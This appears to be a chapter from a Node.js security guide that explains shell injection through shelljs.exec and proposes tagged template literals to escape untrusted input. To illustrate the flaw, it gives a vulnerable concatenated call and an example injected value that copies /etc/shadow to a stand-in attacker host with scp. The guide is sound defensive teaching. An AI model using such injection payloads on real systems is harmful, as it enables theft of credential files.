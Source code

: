 # Shell injection

Threats: [SHP][]

The [`shelljs` module][shelljs] allows access to the system
shell.  We focus on `shelljs`, but similar arguments apply to builtins
like `child_process.spawn(cmd, { shell: ... })` ([docs][cp.spawn]) and
similar modules.

`shelljs` has some nice programmatic APIs for common shell commands
that escape arguments.

It also provides `shell.exec` which allows full access to the shell
including interpretation of shell meta characters.

Solving [shell injection][SHP] is a much harder problem than query
injection since shell scripts tend to call other shell scripts, so
properly escaping arguments to one script doesn't help if the script
sloppily composes a sub-shell.  The problem of tools that trust their
inputs is not limited to shell scripts: see discussion of image decoders
in [BOF][].

The [shell grammar][] has more layers of interpretation so is arguably
more complex than any one SQL grammar.

We can do much better than string concatenation though.  The code
below is vulnerable.

```js
shelljs.exec("executable '" + x + "'")
```

If an attacker causes

```js
x = " '; scp /etc/shadow evil@evil.org/; echo ' ";
```

then what gets passed to the shell is

```js
executable ' '; scp /etc/shadow evil@evil.org/; echo ' '
```

Instead, consider:

```js
shelljs.exec`executable ${x}`

shelljs.exec`executable '${x}'`
```

This use of tagged templates is roughly equivalent to

```js
shelljs.exec(["executable ", ""], x)

shelljs.exec(["executable \'", "\'"], x)
```

This way, when control reaches `shelljs`, it knows which strings came
from the developer: `["executable ", ""]`, and which are inline
expressions: `x`.  If `shelljs` properly escapes the latter, it
prevents the breach above.

The accompanying example ([code][sh-code]) includes a tag
implementation for `sh` and `bash` that recognizes complex nesting
semantics.

We can't, working within the confines of Node, prevent poorly written
command line tools from breaking when exposed to untrusted inputs, but
we can make sure that we preserve the developer's intent when they
write code that invokes command line tools.  For projects that have
legitimate reasons for invoking sub-shells, consistently using
template tags like this solves some problems and makes it more likely
that effort spent hardening command line tools will yield fruit.

[shell grammar]: http://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_10
[shelljs]: https://www.npmjs.com/package/shelljs
[cp.spawn]: https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options
[SHP]: ../chapter-1/threat-SHP.md
[BOF]: ../chapter-1/threat-BOF.md
[sh-code]: https://github.com/google/node-sec-roadmap/tree/master/chapter-7/examples/sh
